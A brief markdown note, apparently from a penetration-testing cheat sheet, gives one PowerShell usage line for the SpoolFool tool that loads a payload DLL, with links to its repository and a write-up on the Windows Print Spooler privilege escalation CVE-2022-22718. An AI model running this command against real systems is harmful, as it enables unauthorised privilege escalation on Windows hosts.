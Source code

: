 ### exploit
```
Invoke-SpoolFool -dll <payload>.dll
```

### References
https://github.com/ly4k/SpoolFool  
https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81  

